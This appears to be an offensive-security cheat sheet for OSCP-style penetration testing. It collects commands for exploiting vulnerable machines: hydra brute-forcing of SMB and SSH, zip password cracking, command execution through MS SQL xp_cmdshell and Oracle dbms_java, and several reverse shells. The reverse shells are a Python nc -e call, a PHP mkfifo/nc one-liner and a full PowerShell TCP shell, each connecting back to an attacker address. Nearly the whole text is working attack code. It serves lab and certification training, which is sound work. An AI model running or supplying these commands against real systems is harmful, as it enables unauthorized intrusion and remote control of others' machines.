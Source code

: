 # Offensive Security Testing Guide
This cheat sheet is the compilation of commands to exploit the vulnerable machines. The commands below may not be enough for you to obtain your Offensive Security Certified Professional (OSCP).

# Dictionary Attack
```bash
hydra -L <user_dict> -P <pwd_dict> 192.168.56.1 smb
hydra -L <user_dict> -P <pwd_dict> 192.168.56.1 ssh
```

```bash
fcrackzip -u -D -p <dictionary_file> <zip_file>
```

# Code Execution
### Python 

```python 
import subprocess
subprocess.check_output(['whoami'])
```

```python 
import os
import sys

os.system('nc -e /bin/bash <attacker_ip> 8099')
```

### PHP
```php
<?php passthru("rm /tmp/f; mkfifo /tmp/f; cat /tmp/f|/bin/sh -i 2>&1|nc <attacker_ip_address> 8099 > /tmp/f"); ?>
```

### MS SQL
```sql
EXEC SP_CONFIGURE N'show advanced options', 1
go
EXEC SP_CONFIGURE N'xp_cmdshell', 1
go
RECONFIGURE
go
xp_cmdshell 'cd C:\<path_to_bind_shell>\ & <bind_shell_name>.exe';
go
```

### Oracle iSQL* Plus
```sql
exec dbms_java.grant_permission( 'SYSTEM','SYS:java.io.FilePermission', '<<ALL FILES>>', 'execute');

begin
  dbms_java.grant_permission
      ('SYSTEM',
       'java.io.FilePermission',
       '<<ALL FILES>>',
       'execute');
  dbms_java.grant_permission
      ('SYSTEM',
       'java.lang.RuntimePermission',
       '*',
       'writeFileDescriptor' );
end;

exec javacmd('<command>');
```

### Power Shell
```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('192.168.56.101',8099);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```
